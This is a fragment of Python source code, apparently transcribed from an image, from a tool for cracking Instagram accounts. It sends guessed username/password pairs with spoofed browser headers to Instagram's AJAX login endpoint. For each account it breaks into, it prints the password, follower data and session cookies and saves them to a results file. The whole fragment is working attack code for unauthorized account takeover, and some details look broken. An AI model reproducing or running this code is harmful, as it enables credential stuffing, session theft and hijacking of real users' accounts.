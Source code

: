				      "Origin": "https://www.secure.instagram.com",
				      "Sec-Fetch-Site": "same-origin",
				      "Sec-Fetch-Mode": "cors",
				      "Sec-Fetch-Dest": "empty",
				      "Referer": "https://www.secure.instagram.com/accounts/login/",
				      "Accept-Encoding": "gzip, deflate",
				      "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
				      }
				head2 = {
				      "Host": "www.secure.instagram.com",
				      "Connection": "keep-alive",
				      "Upgrade-Insecure-Requests": "1",
				      "User-Agent": uas,
				      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
				      "dnt": "1",
				      "X-Requested-With": "mark.via.gp",
				      "Sec-Fetch-Site": "none",
				      "Sec-Fetch-Mode": "navigate",
				      "Sec-Fetch-User": "?1",
				      "Sec-Fetch-Dest": "document",
				      "Referer": "https://www.secure.instagram.com/accounts/login/",
				      "Accept-Encoding": "gzip, deflate",
				      "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
				      }
				param = {
				      "Host": "www.secure.instagram.com",
				      "Connection": "keep-alive",
				      "Cache-Control": "max-age=0",
				      "Upgrade-Insecure-Requests": "1",
				      "User-Agent": uas,
				      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
				      "X-Requested-With": "mark.via.gp",
				      "Sec-Fetch-Site": "none",
				      "Sec-Fetch-Mode": "navigate",
				      "Sec-Fetch-User": "?1",
				      "Sec-Fetch-Dest": "document",
				      "Referer": f"https://www.secure.instagram.com/"+user+"/",
				      "Accept-Encoding": "gzip, deflate",
				      "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
				      }
				data = {
				      "enc_password": f"#PWD_INSTAGRAM_BROWSER:0:{jam}:{pw}",
				      "username":user,
				      "queryParams":"{}",
				      "optIntoOneTap":"false",
				      "stopDeletionNonce":"",
				      "trustedDeviceRecords":"{}"
				      }
				dateku = str(random.choice([param, head2]))
				respon=ses.post("https://www.secure.instagram.com/accounts/login/ajax/",headers = head, data = data, allow_redirects = dateku)
				xc_team=json.loads(respon.text)
				if "userId" in str(xc_team) or "sessionid" in ses.cookies.get_dict():
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					coki = ";".join([key+"="+value.replace('"','') for key, value in ses.cookies.get_dict().items()])
					print("\r                                       ")
					adit=f'\rNama      : {nama}\nUsername  : {user}\nPassword  : {pw}\nPengikut  : {pengikut}\nMengikuti : {mengikut}\nPostingan : {postingan}\nUser-Agent: {uazku()}\ncookies   : {coki}'
					pepekXD = nel(adit, style='green')
					print('\n')
					cetak(nel(pepekXD,style='',title='\r[green]Account Login Method AJAX[white]'))
					open(f"result/success-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')